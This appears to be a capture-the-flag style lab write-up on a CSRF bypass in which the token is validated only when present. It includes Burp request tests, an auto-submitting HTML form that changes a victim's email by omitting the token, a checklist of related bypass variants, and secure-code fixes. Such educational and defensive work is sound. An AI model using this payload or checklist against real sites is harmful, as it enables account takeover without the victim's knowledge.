








# CSRF Where Token Validation Depends on Token Being Present

**Author:** Dnyaneshwar Yadav

---

## Overview

This lab's email change functionality is **vulnerable to CSRF** due to a critical flaw in CSRF token validation logic.

The application **validates CSRF tokens when present**, but **does not require them to be present at all**. This means an attacker can simply omit the CSRF token parameter entirely to bypass the protection.

**Goal:** Use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address by exploiting the optional token validation flaw.

---

## Lab Information

- **Difficulty Level:** Practitioner
- **Vulnerability Type:** CSRF (Presence-Based Bypass)
- **Target:** Email change functionality
- **Credentials:** `wiener:peter`
- **Weakness:** CSRF token validated only if present, not required

---

## Understanding Presence-Based CSRF Bypass

**Flawed CSRF Protection Logic:**

Many applications implement CSRF protection with faulty conditional logic:
```python
# Vulnerable implementation
if 'csrf' in request.parameters:
    if not validate_csrf_token(request.csrf):
        return "Invalid CSRF token"
# Vulnerability: If csrf parameter is missing, validation is skipped
process_email_change(request.email)
```

**The Vulnerability:**

- CSRF token is validated **if present**
- If CSRF token parameter is **omitted entirely**, validation is **skipped**
- Application processes the request normally
- Attacker can forge requests without any token

**Correct Implementation:**
```python
# Secure implementation
if 'csrf' not in request.parameters:
    return "CSRF token required"
if not validate_csrf_token(request.csrf):
    return "Invalid CSRF token"
process_email_change(request.email)
```

---

## Solution

### Step 1: Review the lab description

Open the lab and read the description carefully.

**Key points:**

* Email change functionality is vulnerable to CSRF
* Must upload exploit to exploit server
* Credentials provided: `wiener:peter`
* Hint about not reusing email addresses



---

### Step 2: Login with provided credentials

Navigate to **My Account** and login:

- **Username:** `wiener`
- **Password:** `peter`



---

### Step 3: Observe email change functionality

After login, observe the **My Account** page.

**Current email:** `wiener@normal-user.net`

This is the functionality we'll target with CSRF.



---

### Step 4: Analyze normal request in Burp Suite

Open **Burp Suite** and locate the POST request to `/my-account/change-email`.

**Request observed:**
```
POST /my-account/change-email HTTP/2
...
email=wiener@normal-user.net&csrf=fGqrbEz3mmVXimYdHa4saMp3rUlGc
```

**Parameters:**
- `email` - New email address
- `csrf` - CSRF token

**CSRF Token Present:**
The application includes a CSRF token in normal requests.



---

### Step 5: Test invalid CSRF token

In **Burp Repeater**, modify the CSRF token to an invalid value.

**Modified request:**
```
email=wiener@normal-user.net&csrf=invalid_token
```

**Response:**
```
HTTP/2 400 Bad Request
Content-Length: 20

"Invalid CSRF token"
```

**Result:** The application **validates** the CSRF token and rejects invalid tokens.



---

### Step 6: Test request without CSRF parameter

**Critical Test:** Remove the CSRF parameter entirely.

**Modified request:**
```
email=wiener@normal-user.net
```

**Response:**
```
HTTP/2 302 Found
Location: /my-account?id=wiener
Content-Length: 0
```

**Result:**
- Request **succeeds** (302 redirect)
- Email change is **processed**
- **No CSRF validation** when parameter is absent

**Vulnerability confirmed:** The application only validates CSRF tokens when they are present, but doesn't require them to be present.



---

### Step 7: Craft CSRF exploit without CSRF token

Since the CSRF parameter can be omitted, we craft a simple HTML form that:
1. Uses POST method
2. Includes only the email parameter
3. **Omits the CSRF token entirely**
4. Auto-submits on page load

**CSRF Exploit HTML:**
```html
<form method="POST" action="https://0af6003e040d832e819bfe59007400f6.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="email@changebyme.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**Payload breakdown:**

* `<form method="POST" action="...">` - POST form targeting email change endpoint
* `method="POST"` - Uses POST method (required by endpoint)
* `action="..."` - Full URL to vulnerable endpoint
* `<input type="hidden" name="email" value="email@changebyme.com">` - Only email parameter
* **NO csrf parameter included** - This is the bypass technique
* `<script>document.forms[0].submit();</script>` - Auto-submits form

**How it works:**

1. Victim visits attacker's page (exploit server)
2. HTML form loads with only email parameter
3. Form auto-submits via POST
4. Server checks: `if 'csrf' in parameters` → **False**
5. CSRF validation is **skipped entirely**
6. Email change is **processed normally**
7. Victim's email changed to `email@changebyme.com`
8. Victim is unaware



---

### Step 8: Upload and deliver exploit

Navigate to the **Exploit Server**.

In the **Body** section, paste the CSRF exploit HTML.

Click **Store** to save the exploit.

*Optional:* Click **View exploit** to test it.

Click **Deliver exploit to victim**.

---

### Step 9: Lab solved confirmation

When the victim clicks the exploit link:

1. Malicious HTML page loads
2. Form auto-submits with only email parameter
3. CSRF parameter is **absent**
4. Server **skips CSRF validation**
5. Victim's email is changed to `email@changebyme.com`
6. Attack succeeds silently

The lab is automatically marked as **Solved**.



---

## Result

Successfully bypassed **presence-dependent CSRF protection** by:

* Identifying email change functionality
* Analyzing POST request with CSRF token
* Testing with invalid CSRF token (rejected)
* Testing with NO CSRF token parameter (accepted)
* Discovering validation only occurs when parameter is present
* Crafting HTML form without csrf parameter
* Using POST method with only email parameter
* Uploading exploit to exploit server
* Changing victim's email without their knowledge

This lab demonstrates that **validation logic must check for parameter presence first**.

---

## Why This Attack Works

**Flawed Validation Logic:**
```python
# What the application does (VULNERABLE)
if request.has_parameter('csrf'):
    if not is_valid_csrf(request.parameter('csrf')):
        abort(400, "Invalid CSRF token")
# If csrf not present, this check is skipped!
process_email_change(request.parameter('email'))
```

**Logical Flow:**
```
Request arrives
    ↓
Does it have 'csrf' parameter?
    ├─ YES → Validate token → Invalid? Reject : Process
    └─ NO → Skip validation → Process directly ❌
```

**Root Cause:**

The application treats CSRF protection as **optional enhancement** rather than **mandatory requirement**.

---

## Defense Recommendations

### 1. Require CSRF Token Presence
```python
# Secure implementation
if 'csrf' not in request.parameters:
    abort(400, "CSRF token required")  # Fail if missing

if not validate_csrf_token(request.csrf):
    abort(400, "Invalid CSRF token")   # Fail if invalid

process_email_change(request.email)    # Only process if both checks pass
```

### 2. Use Framework CSRF Protection

Most frameworks handle this correctly:

**Django (Python):**
```python
from django.views.decorators.csrf import csrf_protect

@csrf_protect  # Automatically requires and validates token
def change_email(request):
    # Framework ensures CSRF token is present and valid
    pass
```

**Flask-WTF (Python):**
```python
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect(app)  # Automatically enforces CSRF on all POST requests
```

**Express (Node.js):**
```javascript
const csrf = require('csurf');
app.use(csrf());  // Requires token on all state-changing requests
```

### 3. Defense in Depth

Combine multiple protections:

1. **Require CSRF tokens** (check presence first)
2. **Validate CSRF tokens** (check validity)
3. **SameSite cookies** (`SameSite=Lax` or `Strict`)
4. **Referer/Origin validation**
5. **Custom headers for AJAX**

---

## Common Variations of This Vulnerability

**Other presence-based bypasses:**

1. **Empty string bypass:**
```
   csrf=     # Empty value treated as "not present"
```

2. **Null value bypass:**
```
   csrf=null  # Null treated as "not present"
```

3. **Array bypass:**
```
   csrf[]=value  # Array notation might skip validation
```

4. **Case sensitivity:**
```
   CSRF=value  # Uppercase might not be recognized
```

**Testing checklist:**

- [ ] Omit CSRF parameter entirely
- [ ] Send empty CSRF value
- [ ] Send null CSRF value
- [ ] Send CSRF as array
- [ ] Test parameter name variations (case, encoding)
- [ ] Test with duplicate parameters

---

## Attack Flow Diagram
```
Attacker → Crafts form without CSRF parameter
            ↓
Victim → Logs into vulnerable application
            ↓
Attacker → Sends exploit link to victim
            ↓
Victim → Visits malicious page
            ↓
Browser → Auto-submits form (POST with only email)
            ↓
Server → Checks: csrf parameter present? → NO
            ↓
Server → Skips CSRF validation entirely
            ↓
Server → Processes email change
            ↓
Result → Victim's email changed without knowledge
```

---

## Comparison with Previous Labs

| Lab | CSRF Defense | Bypass Technique |
|-----|--------------|------------------|
| CSRF with no defenses | None | Simple form submission |
| CSRF method-based | Token validated on POST only | Change to GET method |
| **CSRF presence-based** | **Token validated if present** | **Omit token entirely** |

---

## Screenshots Folder Structure
```text
screenshots/
├── 01-lab-description.png
├── 02-login-page.png
├── 03-my-account-page.png
├── 04-burp-post-with-csrf.png
├── 05-invalid-csrf-response.png
├── 06-success-without-csrf.png
├── 07-exploit-server-no-csrf.png
└── 08-lab-solved.png
```

---

## Disclaimer

This repository is for educational purposes only. The techniques demonstrated here should only be used in authorized environments such as security labs and CTF challenges.

---